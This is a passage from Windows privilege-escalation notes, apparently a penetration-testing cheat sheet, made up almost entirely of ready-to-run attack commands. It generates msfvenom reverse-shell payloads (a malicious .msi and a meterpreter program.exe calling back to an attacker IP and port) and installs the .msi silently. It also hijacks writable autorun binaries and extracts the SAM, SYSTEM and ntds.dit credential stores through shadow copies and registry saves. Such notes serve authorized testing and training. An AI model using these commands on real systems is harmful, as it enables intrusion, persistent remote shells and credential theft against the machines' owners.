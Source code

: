 If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.53.201 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Start multi/handler and run the installer with the command below and receive the reverse shell:

```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Auto-Run

```
Get-ModifiableRegistryAutoRun       -   checks for any modifiable binaries/scripts (or their configs) in HKLM autoruns
```

Query this registry key or others ([https://hacktricks.boitatech.com.br/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries](https://hacktricks.boitatech.com.br/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries)):

```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

Alternativelly you can also use AutoRuns (Sysinternals)

[https://learn.microsoft.com/pt-pt/sysinternals/downloads/autoruns](https://learn.microsoft.com/pt-pt/sysinternals/downloads/autoruns)

Using icacls or AccessChk we can confirm that anyone has write access to the program.exe file.

```
icacls [directory/file]
Accesschk.exe -accepteula -wuqv [file] 

msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.56.235 lport=4444 -f exe -o program.exe
```

### Read SAM SYSTEM SECURITY

```
dir C:\Windows\System32\config\SAM
dir C:\Windows\System32\config\SYSTEM
dir C:\Windows\System32\config\SECURITY

icacls C:\Windows\System32\config\SAM
icacls C:\Windows\System32\config\SYSTEM
icacls C:\Windows\System32\config\SECURITY
```

Volume Shadow Copy:

```
vshadow.exe -nw -p C:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

reg.exe save hklm\system c:\system.bak
```
